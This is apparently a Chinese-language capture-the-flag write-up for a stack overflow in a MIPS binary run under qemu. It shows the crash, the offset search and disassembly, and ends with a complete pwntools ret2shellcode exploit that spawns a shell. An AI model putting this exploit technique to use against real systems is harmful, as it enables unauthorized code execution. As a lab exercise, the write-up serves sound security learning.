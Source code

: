 ### 调试

运行:`qemu-mips ./pwn`    
产生了栈溢出     
```
=== Welcome to visit H4-link! ===
Enter the group number: 
1
Enter the id and name, separated by `:`, end with `.` . eg => '1:Job.' 
1:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault (core dumped)
```
现在需要确定溢出的偏移，采用cyclic(0x150)方式，但是会莫名其妙飞掉，只能逆向+手工调试。     
调试出偏移是`b'1:'+0x90*b'a'+$ra`

## EXP

### ret2shellcode
我们通过qemu-user启动地址非随机，可以直接ret2shellcode执行。    
思路1（试错）：  
- 那现在知道sp的地址是0x76fff208，我们知道v14变量栈的相对值+0x2c，只需要知道v14与输入的数据的相对位置就可以。    
- 我们需要确定我输入的值传到栈上v14的相对位置是多少,可以通过cyclic方式来判断，在memcpy后下断点，查看栈上的值gaaa开头。   
- 但是这有个问题就是，这块到返回地址之间，空间不够，只能放到返回地址之后。    
```
>>> cyclic_find('gaaa')
24
```    
`memcpy(v14 + 1, v16 + 1, v17);`附近的汇编代码
```
.text:0040092C move    $a2, $a0
.text:00400930 move    $a1, $v0
.text:00400934 move    $a0, $v1
.text:00400938 la      $v0, memcpy
.text:0040093C move    $t9, $v0
.text:00400940 bal     memcpy
.text:00400944 nop
.text:00400948 lw      $gp, 0x58+var_48($fp)
.text:0040094C b       loc_400988
```
思路2：
- 找返回地址后的栈地址，通过调试为0x76fff2b0。     
- [exp.py](./exp.py)
```python
from pwn import *
context(arch="mips",endian="big",log_level="debug")

io = process(['qemu-mips','./pwn'])

io.sendlineafter("number: ",b'1')

payload = b'1:' 
payload += 0x90*b'a' +p32(0x76fff2b0)+asm(shellcraft.sh())
io.sendlineafter("eg => '1:Job.' ",payload)
io.interactive()
```
